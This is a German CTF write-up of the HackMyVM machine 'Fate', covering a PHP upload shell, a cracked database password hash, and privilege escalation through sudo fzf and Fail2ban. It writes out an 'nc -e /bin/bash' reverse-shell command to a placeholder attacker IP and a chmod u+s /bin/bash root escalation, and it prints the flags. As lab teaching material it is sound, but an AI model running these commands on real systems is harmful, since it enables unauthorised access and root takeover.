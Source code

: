 # Fate - HackMyVM (Medium)

![Fate.png](Fate.png)

## Übersicht

*   **VM:** Fate
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Fate)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 24. Oktober 2022
*   **Original-Writeup:** https://alientec1908.github.io/Fate_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war die Kompromittierung der virtuellen Maschine "Fate". Die Enumeration ergab einen Nginx-Webserver (Port 80) mit einer Upload-Funktion und eine Gancio-Anwendung (Port 13120). Der initiale Zugriff erfolgte durch das Hochladen einer PHP-Reverse-Shell auf Port 80 und deren Ausführung als `www-data` (der genaue Mechanismus zur Umgehung der nicht-PHP-Ausführung wurde im Log nicht detailliert, aber die Shell wurde erlangt). In der Konfigurationsdatei der Gancio-Anwendung wurden Datenbank-Zugangsdaten gefunden. Diese wurden genutzt, um auf die MariaDB-Datenbank zuzugreifen und den Passwort-Hash des Benutzers `connor` zu extrahieren. Nachdem der Hash geknackt war (`genesis`), konnte zu `connor` gewechselt werden. `connor` durfte `fzf` als `john` ausführen, was über die `--preview`-Option zur Erlangung einer Shell als `john` genutzt wurde. Schließlich durfte `john` `fail2ban` mittels `systemctl restart` als `root` neu starten. Durch Modifizieren einer Fail2ban-Aktionsdatei (z.B. in der `actionstart`-Direktive) wurde beim Neustart von Fail2ban das SUID-Bit auf `/bin/bash` gesetzt, was eine Root-Shell ermöglichte.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `gobuster`
*   `nc (netcat)`
*   `curl`
*   `nikto`
*   `python`
*   `ls`, `pwd`, `cd`, `cat`, `find`, `echo`, `grep`
*   `mysql` (Client)
*   `john` (John the Ripper)
*   `su`
*   `sudo`
*   `fzf`
*   `wget`
*   `chmod`
*   `ssh`
*   `nano`
*   `watch`
*   `systemctl`
*   `bash`
*   Standard Linux-Befehle

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Fate" gliederte sich in folgende Phasen:

1.  **Reconnaissance:**
    *   IP-Findung mittels `arp-scan` (192.168.2.109).
    *   Portscan mit `nmap` identifizierte Port 22 (SSH OpenSSH 8.4p1), Port 80 (Nginx 1.18.0) und Port 13120 (Node.js Express Framework - Gancio).

2.  **Web Enumeration & Initial Access (Reverse Shell als `www-data`):**
    *   `gobuster` auf Port 80 fand `/uploads` und `/upload.php`.
    *   Eine PHP-Reverse-Shell wurde (implizit erfolgreich) hochgeladen. Der direkte Aufruf scheiterte zunächst, da Nginx die Datei nicht als PHP interpretierte.
    *   (Der genaue Mechanismus, wie die Shell letztendlich ausgelöst wurde, ist im Log unklar, aber eine Reverse Shell als `www-data` wurde empfangen).

3.  **Database Credential Leak & Lateral Movement (von `www-data` zu `connor`):**
    *   Enumeration als `www-data` führte zur Datei `/opt/gancio/config.json`.
    *   Die `config.json` enthielt Klartext-Zugangsdaten für die MariaDB-Datenbank (`gancio`:`gancio`).
    *   Login in die Datenbank, die `users`-Tabelle wurde ausgelesen. Der Bcrypt-Hash für `connor@localhost` wurde extrahiert.
    *   Der Hash wurde mit `john` und `rockyou.txt` geknackt, das Passwort war `genesis`.
    *   Mit `su connor` und dem Passwort `genesis` wurde zu `connor` gewechselt.

4.  **Privilege Escalation (von `connor` zu `john` via `sudo fzf`):**
    *   `sudo -l` für `connor` zeigte: `(john) NOPASSWD: /usr/bin/fzf`.
    *   Mit `sudo -u john /usr/bin/fzf --preview="nc -e /bin/bash <ANGREIFER-IP> <PORT>"` wurde eine Reverse Shell als `john` erlangt. Die User-Flag wurde gelesen.

5.  **Privilege Escalation (von `john` zu `root` via `sudo systemctl` & Fail2ban):**
    *   `sudo -l` für `john` zeigte: `(root) NOPASSWD: /usr/bin/systemctl restart fail2ban`.
    *   Eine Fail2ban-Aktionsdatei (z.B. `/etc/fail2ban/action.d/iptables-common.conf`) wurde modifiziert. Die `actionstart`-Direktive wurde geändert, um `/bin/chmod u+s /bin/bash` auszuführen.
    *   Durch Ausführen von `sudo /usr/bin/systemctl restart fail2ban` wurde der modifizierte `actionstart`-Befehl als `root` ausgeführt, was das SUID-Bit auf `/bin/bash` setzte.
    *   Mit `/bin/bash -p` wurde eine Root-Shell erlangt. Die Root-Flag wurde gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Unsichere Dateiupload-Funktion:** Eine Upload-Funktion erlaubte das Hochladen von PHP-Dateien, die später zur Codeausführung genutzt wurden.
*   **Klartext-Zugangsdaten in Konfigurationsdateien:** Datenbank-Zugangsdaten waren im Klartext in einer lesbaren Konfigurationsdatei (`config.json`) gespeichert.
*   **Schwache Passwort-Hashes in Datenbank:** Benutzerpasswörter (Hashes) in der Datenbank konnten mit gängigen Wortlisten geknackt werden.
*   **Unsichere `sudo`-Konfigurationen:**
    *   `connor` durfte `fzf` als `john` ausführen. `fzf` erlaubt über Optionen wie `--preview` die Ausführung von Befehlen.
    *   `john` durfte `systemctl restart fail2ban` als `root` ausführen. Dies ermöglichte die Manipulation von Fail2ban-Aktionsdateien, um beim Neustart des Dienstes beliebigen Code als Root auszuführen (hier: Setzen des SUID-Bits auf Bash).
*   **Dienst-Konfigurationsmanipulation für Privesc:** Die Möglichkeit, einen Dienst neu zu starten (Fail2ban) und dessen Konfigurationsdateien zu modifizieren, wurde zur Rechteausweitung missbraucht.

## Flags

*   **User Flag (`/home/john/user.txt`):** `Ineedyourboots`
*   **Root Flag (`/root/root.txt`):** `Cyborgsdontfeelpain`

## Tags

`HackMyVM`, `Fate`, `Medium`, `FileUpload`, `RCE`, `DatabaseLeak`, `PasswordCracking`, `SudoFZF`, `SudoSystemctl`, `Fail2banExploit`, `SUIDAbuse`, `Linux`, `Web`, `NodeJS`, `Privilege Escalation`
